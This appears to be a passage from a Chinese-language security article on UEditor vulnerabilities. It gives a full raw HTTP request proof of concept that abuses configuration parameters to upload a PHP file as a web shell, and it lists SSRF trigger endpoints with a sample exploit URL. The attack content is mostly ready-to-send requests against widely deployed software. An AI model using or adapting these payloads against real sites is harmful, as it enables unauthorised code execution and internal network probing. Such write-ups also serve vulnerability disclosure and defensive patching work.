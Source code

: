 ![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkfPMUnRulguXJZKDiapNibUbswAsv4Y3zKkSNqW0ib3qic6j9UJ2Y3LXpSA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkBBNrZssT6Fz7ojcZIjmzaiaA0u3qicdicGCwdOmcia0lhicOcUGvkVH7E4g/640?wx_fmt=png)

**0x04 PHP 版本的文件上传**

**利用 poc：**  

```
POST http://localhost/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=ueditor/php/upload/fuck&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=fuck HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 222
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/60.0.3112.78 Safari/537.36
Content-Type: multipart/form-data; boundary=——WebKitFormBoundaryDMmqvK6b3ncX4xxA
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4
———WebKitFormBoundaryDMmqvK6b3ncX4xxA
Content-Disposition: form-data; 
Content-Type: application/octet-stream
<?php 
phpinfo();
?>
———WebKitFormBoundaryDMmqvK6b3ncX4xxA—

shell路径由CONFIG[imagePathFormat]=ueditor/php/upload/fuck决定
http://localhost/ueditor/php/upload/fuck.php
```

**0x05 SSRF 漏洞**

该漏洞存在于 1.4.3 的 jsp 版本中。但 1.4.3.1 版本已经修复了该漏洞。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkgXg6rDzW26lX54O8niaxQeKpNPFYucliaYkhbxBicfwxWPcb91jACSicgw/640?wx_fmt=png)

已知该版本 ueditor 的 ssrf 触发点：

```
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
/php/controller.php?action=catchimage&source[]=
```

使用百度 logo 构造 poc：

```
http://1.1.1.1:8080/cmd/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
```
